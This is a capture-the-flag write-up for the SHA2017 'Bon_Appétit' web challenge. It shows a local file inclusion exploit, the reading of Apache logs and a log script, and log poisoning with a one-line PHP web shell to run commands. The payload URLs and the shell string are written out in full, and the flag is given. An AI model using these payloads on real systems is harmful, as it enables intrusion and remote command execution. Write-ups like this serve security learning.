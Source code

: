 ```yaml
---
layout: post
title: Bon_Appétit
category: SHA2017 CTF
---
```


Hello all  , after reading some write up , i notice that 90% of players solved this challenge with the simple and easy way 

using .htaccess file to find the flag file name and then read it using LFI was really easy and fast 


But in our team always we look for hard way :D joking 

First we found that there is LFI vuln in the website which make us able to read any file in the server :

```
http://bonappetit.stillhackinganyway.nl/?page=LFI HERE
```

so here you can read all what you need to deal with this challenge 

the easy way is that you find the .htaccess file and then read the flag using the name mention in this file 

as we dont check this file we did my own solution and as i thin its the goal of this task

when you read the source of home page we see text : 

<!-- TODO: Check apache access and error log for errors -->

so we check the log files access.log but we dont find it , then check access.log.1 and we get it ,also log.sh file used to create the log file 


"output : All logs are saved in /var/www/html/logs/[client_ip].log, rotated after 10 entries."

```
http://bonappetit.stillhackinganyway.nl/?page=file:///var/log/apache2/access.log.1
http://bonappetit.stillhackinganyway.nl/log.sh

#!/bin/bash

while read -r
do
   HOST=$(echo $REPLY|awk '{ print $1 }')
   LOG=/var/www/html/logs/${HOST}.log
   touch ${LOG}

   # Check length
   LEN=$(cat ${LOG}| wc -l) 
   if [ ${LEN} -gt 10 ] 
   then
      > ${LOG}
   fi

   echo "${REPLY}" >> ${LOG}  2>&1
done

exit 0
```

then we just did simple log poisoning and run our command in the server 

```
GET /<?php system($_GET['a']);?>
```

then

```
bonappetit.stillhackinganyway.nl/?page=file:///var/www/html/logs/our_ip.log&a=ls
```

![pasted image at 2017_08_05 01_06 pm](https://user-images.githubusercontent.com/7364615/29022899-8bd968d0-7b6b-11e7-8f3e-c3a454d9fd65.png)


and finaly read the flag 

![envoye_le_5_8_2017_a_13_09_05](https://user-images.githubusercontent.com/7364615/29022986-dead8cf8-7b6b-11e7-877d-9d8d58bf6049.png)

flag{82d8173445ea865974fc0569c5c7cf7f}
